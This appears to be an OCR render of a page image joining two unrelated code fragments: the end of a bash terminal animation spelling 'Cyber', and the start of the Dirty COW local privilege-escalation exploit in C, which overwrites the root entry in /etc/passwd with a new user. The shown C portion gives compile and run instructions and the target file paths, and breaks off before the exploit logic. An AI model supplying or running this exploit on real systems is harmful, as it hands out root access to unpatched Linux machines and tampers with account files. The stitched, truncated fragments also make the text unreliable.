 ```bash
        sh=1
        for l in C y b e r
        do
            tput cup $((lin+1)) $((c+sh))
            echo $l
            let sh++
            sleep 0.01
        done
    }
    k=$((k % 2 + 1))
done$ 




```

```c
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
```